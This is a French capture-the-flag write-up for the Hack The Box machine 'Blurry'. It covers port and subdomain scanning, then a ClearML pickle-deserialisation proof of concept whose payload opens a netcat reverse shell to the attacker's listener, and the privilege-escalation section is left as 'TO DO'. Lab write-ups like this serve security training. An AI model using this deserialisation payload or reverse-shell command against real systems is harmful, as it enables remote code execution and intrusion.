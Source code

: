   # Blurry

	echo "10.10.11.19 app.blurry.htb" >> /etc/hosts
    echo "10.10.11.19 chat.blurry.htb" >> /etc/hosts
    echo "10.10.11.19 files.blurry.htb" >> /etc/hosts
    echo "10.10.11.19 api.blurry.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.19 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.19 -oN nmap.txt
	feroxbuster --silent -u http://app.blurry.htb
	
Scans classiques.

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
    80/tcp open  http    nginx 1.18.0

Fuzzing supplémentaire : 

    ffuf -H "Host: FUZZ.blurry.htb" -u http://app.blurry.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fs 169 -c
    
Deux autres sous-domaines trouvés : 

    files                   [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 1442ms]
    app                     [Status: 200, Size: 13327, Words: 382, Lines: 29, Duration: 164ms]
    chat                    [Status: 200, Size: 218733, Words: 12692, Lines: 449, Duration: 1450ms]


http://files.blurry.htb/ => Rien
<br>http://chat.blurry.htb/ => Rocket.Chat

Le site app.blurry.htb, sur lequel on arrive par défaut, nous permet de nous connecter en demandant juste un nom. On arrive ensuite sur un ensemble de projets et on voit que c'est du ClearML.

Dans le projet "Black Swan" présent par défaut, il y a un script "review_tasks" qui vérifie les tâches contenant le tag "review" en les ouvrant et en les fermant chaque minute.

On peut ajouter une clé API dans http://app.blurry.htb/settings/workspace-configuration 

Setup : 

    pip install clearml
    clearml-init
    # Coller les credentials du site
    # Bien ajouter api.blurry.htb dans /etc/hosts

Un CVE récent existe et permet une RCE par désérialisation.

Voir : 
- https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/

PoC : 

    import pickle
    import os
    from clearml import Task

    class RCE:
        def __reduce__(self):
            cmd = ("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.16.61 9999 > /tmp/f")
            return os.system, (cmd,)

    task = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"], output_uri=True)

    task.upload_artifact(name='pickle_artifact', artifact_object=RCE(), retries=2, wait_on_upload=True)


Déroulé du PoC : 

    vim exp.py
    rlwrap nc -nvlp 9999
    python exp.py

Après un peu d'attente, on reçoit bien le shell en tant que Jippity : 

	cat ~/user.txt 

## Élévation de privilèges

TO DO
